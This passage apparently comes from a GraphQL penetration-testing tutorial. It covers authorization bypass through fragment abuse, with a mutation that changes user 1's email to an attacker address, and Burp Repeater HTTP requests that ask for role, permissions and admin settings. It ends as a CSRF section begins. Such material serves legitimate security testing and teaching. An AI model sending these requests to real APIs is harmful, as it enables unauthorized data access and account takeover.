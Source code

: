 Fragment abuse can sometimes bypass authorization:

```graphql
mutation {
  updateUser(id: "1", input: {
    email: "hacker@evil.com"
  }) {
    ...AdminFields
  }
}

fragment AdminFields on User {
  id
  role
}
```

If the API doesn't properly check authorization for fragment fields separately from the main query, an attacker might gain access to restricted data.

Testing fragment-based authorization bypass with Burp Repeater:

1. **Identify a mutation that returns user data**:
   ```
   POST /graphql HTTP/1.1
   Host: example.com
   Content-Type: application/json
   Authorization: Bearer USER_TOKEN
   
   {"query": "mutation { updateUser(id: \"1\", input: { name: \"Test User\" }) { id name } }"}
   ```

2. **Add a fragment requesting sensitive fields**:
   ```
   POST /graphql HTTP/1.1
   Host: example.com
   Content-Type: application/json
   Authorization: Bearer USER_TOKEN
   
   {"query": "mutation { updateUser(id: \"1\", input: { name: \"Test User\" }) { id name ...AdminFields } } fragment AdminFields on User { role permissions adminSettings }"}
   ```

3. **Analyze the response**:
   - Check if the fragment fields are returned despite insufficient privileges
   - Verify if authorization checks handle fragments properly

### CSRF Vulnerabilities in GraphQL

Cross-Site Request Forgery (CSRF) vulnerabilities occur when GraphQL endpoints don't properly verify that requests are intentional. Unlike traditional REST APIs where each endpoint can have its own CSRF protection, GraphQL typically uses a single endpoint for all operations, complicating CSRF defenses.

#### CSRF via GET Requests
